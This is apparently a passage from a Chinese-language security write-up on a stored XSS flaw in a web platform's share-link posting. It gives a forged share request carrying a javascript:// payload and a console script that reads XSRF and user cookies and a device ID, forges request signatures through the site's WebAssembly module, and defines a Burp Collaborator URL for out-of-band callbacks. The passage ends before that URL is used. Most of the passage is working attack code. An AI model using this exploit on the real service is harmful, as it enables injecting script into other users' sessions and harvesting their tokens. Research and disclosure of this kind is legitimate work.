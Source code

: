 5. 构造xss payload。将分享链接设置为javascript://协议头，并且带上我们的payload，将fromUid设置为攻击者的UID，将url设置为javascript://%0aalert(\"xss\")，然后用上一步的gen_sign函数对请求体进行校验后，构造合法的post请求，实现分享发帖。

        {"serverId":"0149881871","channelId":"1459515","squareId":"60054a7dd5456877d226706e","fromUid":"b1fbb501020c46ff88577a3fe103c0ec","fromNick":"","msgType":"CHAT_ROOM_MSG","sourceType":"GOD_WEB","content":{"attachType":"link","attachData":{"title":"p","url":"javascript://%0aalert(\"xss\");"}},"contentType":"SHARE"}

    为简化操作，写一个js文件，实现自动发帖，请将下面脚本粘贴并且复制到大神网页的Console中执行。

        // burpsuite collaborator url
        const api_burp = 'https://e9op59j1geov80qd4hiuakntnktch3fr4.oastify.com'
        // init webassembly and get sig_gen function
        // 获取签名函数，该函数的实现为webassembly，但是全局模块sig暴露webassembly的接口，可以直接进行调用
        var moduleX;
        Promise.all([sig.default()]).then(function (t) {
            moduleX = t
        })

        // 获取cookie信息
        const getCookieValue = (name) => (
            document.cookie.match('(^|;)\\s*' + name + '\\s*=\\s*([^;]+)')?.pop() || ''
        )

        const myFetch = async (url, headers) => {
            let data = await fetch(url, {
                method: 'GET',
                headers: headers,
                credentials: 'include'
            })
            let res = await data.json();
            return res
        }
        // 构造GET发送请求
        const setHeaderDs = (payload) => {
            var GL_X_XSRF_TOKEN = getCookieValue('GL-XSRF-TOKEN')
            var GL_Uid = getCookieValue('GOD_UUID')
            var checkres = moduleX['0'].gen_sign(payload)
            var checkjson = JSON.parse(checkres)
            var GL_CheckSum = checkjson['sign']
            var GL_Nonce = checkjson['timestamp']
            var GL_ClientType = 61
            var GL_DeviceId = localStorage.getItem('ns-client-id')
            var headers = {
                'GL-CheckSum': GL_CheckSum,
                'GL-Nonce': GL_Nonce,
                'GL-Uid': GL_Uid,
                'GL-DeviceId': GL_DeviceId,
                'GL-ClientType': GL_ClientType,
                'GL-X-XSRF-TOKEN': GL_X_XSRF_TOKEN,
                'Content-Type': 'application/json;charset=UTF-8'
            }
            return headers
        }
